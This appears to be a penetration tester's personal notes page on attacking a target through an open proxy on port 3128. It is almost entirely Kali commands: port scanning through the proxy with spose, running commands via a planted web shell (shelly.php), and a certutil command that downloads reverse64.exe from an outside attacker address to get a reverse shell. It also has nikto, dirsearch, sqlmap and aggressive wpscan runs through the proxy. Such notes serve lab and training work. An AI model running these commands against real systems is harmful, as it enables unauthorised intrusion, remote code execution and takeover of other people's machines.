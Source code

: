#### Spose
```bash - kali
git clone https://github.com/aancw/spose.git && cd spose
```
```bash - kali
python3 spose.py --proxy http://$TARGET:3128 --target 127.0.0.1
```
#### Foxy Proxy
Once foxy proxy is set up, we now try visiting one of the ports found by spose:
http://127.0.0.1:3306
http://127.0.0.1:8080
Visiting 8080, we see a link for /phpmyadmin
[[phpmyadmin]]
```bash - kali
curl --proxy $TARGET:3128 "http://127.0.0.1:8080/shelly.php?cmd=whoami"
```
[[1._Reverse Shells (WIN)#Stageless Payloads]]
[[1._rlwrap]]
[[Python#Server]]
[[4._File Transfers]]
```
curl --proxy $TARGET:3128  "http://127.0.0.1:8080/shelly.php?cmd=certutil%20-urlcache%20-split%20-f%20http%3A%2F%2F192.168.49.57%2Freverse64.exe"
```
#### Nikto
```bash - kali
nikto -h $TARGET -useproxy http://$TARGET:3128
```
#### Uniscan
#### dirsearch
```bash - kali
dirsearch -u http://$TARGET --proxy=$TARGET:3128
```
#### sqlmap
```bash - kali
sqlmap -u http://$TARGET/sqli/Less-1/?id=1 --dbs --proxy http://$TARGET:3128
```
#### Wordpress wpscan
```bash - kali
wpscan -e ap,at,tt,cb,dbe,u,m --detection-mode aggressive --plugins-detection aggressive -t 30 --url http://$TARGET --proxy http://$TARGET
```
